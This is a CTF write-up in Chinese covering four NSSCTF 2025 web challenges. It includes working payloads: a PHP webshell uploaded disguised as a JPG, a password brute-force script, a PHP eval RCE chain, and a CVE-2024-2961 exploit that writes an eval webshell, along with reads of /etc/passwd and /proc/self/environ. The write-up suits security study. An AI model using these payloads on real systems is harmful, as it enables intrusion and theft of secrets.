[NSSCTF] WP 7 - NSS 2025
===

## [Web] ezez_include

### 题解

一个上传的读取界面, 尝试发现这里没有禁用 `php://` 和 `file://` 伪协议, 扫目录:



扫到之后用伪协议读出来:

```
php://filter/convert.base64-encode/resource=./upload.php
```

解码后:

```php

<?php
// 检查并创建上传目录
$upload_dir = 'upload/';
if (!is_dir($upload_dir)) {
    mkdir($upload_dir, 0755, true);
}

$message = '';
$uploaded_path = '';

if ($_SERVER['REQUEST_METHOD'] === 'POST' && isset($_FILES['image'])) {
    $file = $_FILES['image'];
    $file_ext = strtolower(pathinfo($file['name'], PATHINFO_EXTENSION));
    
    // 严格检查文件MIME类型：仅允许 image/jpeg
    if ($file['type'] === 'image/jpeg' && $file_ext === 'jpg') {
        // 生成一个唯一文件名以避免覆盖，并保留jpg扩展名
        $new_filename = $upload_dir .$file['name'];
        
        if (move_uploaded_file($file['tmp_name'], $new_filename)) {
            $message = "File uploaded successfully!";
            // 关键：将上传路径返回给选手，以便用于 LFI
            $uploaded_path = "Your uploaded file path is:" . $new_filename;
        } else {
            $message = "Failed to move uploaded file.";
        }
    } else {
        $message = "Upload failed: Only .jpg files are allowed.";
    }
}
?>

<div class="container">
    <h1>Image Upload Service</h1>

    <div class="upload-box">
        <form action="" method="POST" enctype="multipart/form-data">
            <label for="image" style="display: block; margin-bottom: 10px; font-weight: bold;">Select your image</label>
            <input type="file" name="image" id="image" accept=".jpg" required>
            <input class="btn" type="submit" value="Upload Image">
        </form>
    </div>

    <?php if ($message): ?>
        <p class="<?php echo (strpos($message, 'successfully') !== false) ? 'success-msg' : 'error-msg'; ?>">
            <?php echo htmlspecialchars($message); ?>
        </p>
    <?php endif; ?>
    
    <?php if ($uploaded_path): ?>
        <p class="success-msg" style="color: #333;">
            <?php echo $uploaded_path; ?>
        </p>
    <?php endif; ?>
```

此处上传文件本身不能直接传 webshell 上去, 但是刚刚的 index.php 会用执行回显, 并且将读取的文件当做 php 文件执行, 因此直接传一个 php 文件, 然后把后缀和文件类型改掉, 再去 index.php 触发即可:

```php
<?php system('ls /');?>
```

包:

```
POST /upload.php HTTP/1.1
Host: node9.anna.nssctf.cn:21326
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----geckoformboundaryd075cb6ffe3d56a0531366fe6d5665f6
Content-Length: 235
Origin: http://node9.anna.nssctf.cn:21326
Connection: keep-alive
Referer: http://node9.anna.nssctf.cn:21326/upload.php
Upgrade-Insecure-Requests: 1
Priority: u=0, i

------geckoformboundaryd075cb6ffe3d56a0531366fe6d5665f6
Content-Disposition: form-data; name="image"; filename="cmd.jpg"
Content-Type: image/jpeg

<?php system('ls /');?>
------geckoformboundaryd075cb6ffe3d56a0531366fe6d5665f6--
```

前台读取: `.upload/cmd.jpg`:



修改 jpg 文件后再读一次:


## [Web] DANGEROUS TRIAL

### 目录爆破

进入是一个登录界面:


sqlmap 扫一下, 暂时没有进展, 试试爆目录, 扫出疑似源码备份:



打开之后发现是一个字典, 暗示这里大概率是爆破;



### 爆破口令

写个简单的爆破:

```python
import requests

url = 'http://node1.anna.nssctf.cn:28896'

sess = requests.Session()

cnt = 0
for i in open("./nss2025/hello.txt", "r").readlines():
    cnt += 1
    payload = i.strip()
    print(f"[+] Trial {cnt}: Trying payload: {payload}")
    data = {
        'username': 'admin',
        'password': payload
    }
    
    response = sess.post(url, data=data, proxies={
        'http': '127.0.0.1:8080',
        'https': '127.0.0.1:8080'
    })
    
    if "错误" not in response.text:
        print(f"Successful payload: {payload}")
        break
```



### 代码审计 + RCE

登录后显示了一段源码:

```php
<?php
//base64_encode("rimuru")???
session_start();
error_reporting(0);
highlight_file(__FILE__);

$raw = $_GET['cat'] ?? '';
if (intval($raw) === 114514 && $raw !== '114514') {
} else {
    die("抱歉勇士，闯关失败<br>");
}


$pt = $_GET['Slime'] ?? '';
if (substr($pt, -3) !== 'XJ1') {
    die("成功进入洞穴，但是怪物呢??<br>");
}

$data = @file_get_contents($pt);
if (trim($data) !== "rimuru") {
    die("你看到怪物了快攻击他！<br>");
}

$code = $_POST['NSS_CTF.LOVE'] ?? '';
if (';' === preg_replace('/[^\W]+\((?R)?\)/', '', $code)) {
    eval($code);
    echo "成功捕获一只史莱姆!<br>";
} else {
    die("你不是怪物的对手~<br>");
} 
```

显然第一处传 `cat` = `114514a` 即可; 第二处读的是 `Slime` 的最后三位, 直接传 `Slime` = `XJ1` 即可; 第三处结合前面的提示, 利用 `data://` 伪协议传入 base64 之后的 `rimuru` 即可;

接下来是第四处, 首先变量名要用 `NSS[CTF.LOVE` (php 特性, 对 `[` 等特殊字符变量名的特殊处理),  之后的正则匹配要求这个参数必须满足: `phpinfo(phpinfo(...))` 这样的格式, 也就是必须是严格的函数嵌套;

验证, 尝试:

```
(GET)
cat=114514a&Slime=data://text/plain;base64,cmltdXJ1
(POST)
NSS[CTF.LOVE=phpinfo();
```



现在的主要目标是通过 `function(function(...))` 这样的结构 (注意, 最里层必须是空参数) 来读出目标;

搜索了一下 php 文档并且问了一下 ai, 有以下关键函数:

- `getcwd()`: 返回当前目录;
- `dirname()`: 返回上级目录;
- `scandir()`: 扫描当前目录, 返回一个数组, 包含所有文件, 以及 `.` 和 `..` ;

尝试这个 payload:

```php
var_dump(scandir(dirname(dirname(dirname(getcwd())))));
```



注意这里能看到 flag 就在根目录下的 `/flag` 里, 接下来要尝试能不能在满足正则模式的情况下操作这个数组, 把它读出来;

尝试了半天, 暂时似乎是没办法; 收集了一些函数, 记录如下:

- `current()`: 返回数组当前指针位置元素, 默认是第一个;
- `end()`: 返回数组最后一个元素;
- `next()`: 返回数组指针位置的下一个元素;
- `prev()`: 返回数组指针位置的上一个元素;

如果没办法通过一行代码 + 数组的方式操作到 `/flag`, 那么考虑换个思路:

构造目标是 `cat /flag`, 也就是 `system("cat /flag")`, 那么要想办法的是让某一个函数取值取到 **`cat /flag`**;

查阅 PHP 手册的时候注意到一个特殊的函数: `get_defined_vars()`: 注意! 这个函数里会将 **GET** 超全局数组放在最前面, 那么调整输入顺序, 在最前面传个 *flag=cat%20/flag* 进去, 然后想办法把它取出来就行了;

这里想到刚刚有个 `current()` 函数, 实测调用两次就可以取到这个字符串, 问题解决, 最终 payload:

```
(GET)
flag=cat+/flag&path=(登录固定给)&cat=114514a7&Slime=data://text/plain;base64,cmltdXJ1&a()=1

(POST)
NSS[CTF.LOVE=system(current(current(get_defined_vars())));
```

拿到 flag:



### 总结

没啥好说的, php 真是神奇。其实这道题有可能是做复杂了, 不过做出来了就行, 后续等 wp;

## [Web] 我是签到

### 文件包含

开门源码:

```php
<?php   
if(isset($_POST['file'])){ 
$data = file_get_contents($_POST['file']);
echo "File contents: $data";}
highlight_file(__FILE__);
error_reporting(0);
?>
```

显然有文件包含, 也支持伪协议, 先试试 `/etc/passwd`, 成功; 接下来试试远程文件包含 (RFI):



竟然也成功, 不过很可惜, 试了一会好像攻击点不在这里;

### CVE-2024-2961

前后搜索了一下相关问题, 发现这题应该存在这个漏洞。 之前有一篇笔记记录过这个漏洞: [[KPCTF 2024 决赛] Where is the flag](https://r4x.top/2025/09/01/nssctf_wp2/#CVE-2024-2961)

快速利用: [Github](https://github.com/kezibei/php-filter-iconv)

用伪协议读 `/proc/self/maps`:



找其中的环境文件, 这里是 `libc.so.6`;

继续读这个环境文件, 注意这是个二进制文件, 最好用 base64 去读, 读完之后解码, 防止出错:

```
php://filter/convert.base64-encode/resource=/usr/lib/x86_64-linux-gnu/libc.so.6
```



把读到的文件和 exp 放在同目录下然后生成 payload, 这里使用的 RCE 内容是:

```python
cmd = 'echo "<?=eval(\$_POST[1]);phpinfo();?>" > shell.php'
```

> 注意 `$` 需要转义;

生成 payload 后执行;



之后直接尝试访问后台:



这里已经成功;

### webshell

连接 webshell, flag 在环境里:





---

```bash
cat /proc/self/environ
```

### 总结

~虽然名字叫签到题, 但是完全不像签到题的难度~

这种题如果没见过很容易初见杀, 只能积累经验, 总结一下这个漏洞的特点是有类似如下的结构:

```php
if(isset($_POST['file'])){ 
$data = file_get_contents($_POST['file']);
echo "File contents: $data";}
```

## [Web] 我是复读机

### 题解 (未完)

先抓包, 看见源码里有提示去 `/robots.txt`:



访问这个地址, 内容:

```
User-agent: *
Disallow: /Up1oAds
```

继续跟进:




显示权限不足, 看一下源码, 有个提示内容,



之后抓包能看见 cookie 里有个三段的很像 JWT 的内容, 猜测需要伪造 cookie;
这个 JWT 的第一段是 payload, 第二段应该是随机数或者时间戳, 第三段是水印;

> 到这里没时间了, 最后一天才看见有比赛, 只解了这几道题, 以后有时间再看后面的, 体感比之前的新生赛要难一些;